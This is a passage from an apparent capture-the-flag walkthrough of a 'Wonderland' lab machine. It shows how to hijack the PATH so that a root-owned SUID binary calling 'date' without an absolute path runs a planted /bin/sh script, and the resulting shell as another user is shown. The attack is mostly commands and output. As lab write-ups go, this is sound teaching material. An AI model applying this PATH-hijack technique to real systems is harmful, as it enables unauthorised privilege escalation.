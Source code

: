 ## More Lateral Movement

There's a binary in `rabbit`'s home directory with the SUID set and owned by root.

```
rabbit@wonderland:~$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ls
teaParty
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 19 Jan 2022 16:18:51 +0000
Ask very nicely, and I will give you some tea while you wait for him
please
Segmentation fault (core dumped)
rabbit@wonderland:/home/rabbit$ ls -al
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```

This script appears to be running the `date` command.  

If we `cat` out the file it is shown that this specific command is run.

```
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

`date` is being used without an absolute path, so we should be able to exploit this to get root.

```
rabbit@wonderland:~$ cat /tmp/date
#!/bin/bash
/bin/sh
rabbit@wonderland:~$ export PATH=/tmp:$PATH
rabbit@wonderland:~$ cd /home/rabbit
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by $ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

---
## More Lateral Movement

`hatter` left their password in /home/hatter, for easier access.
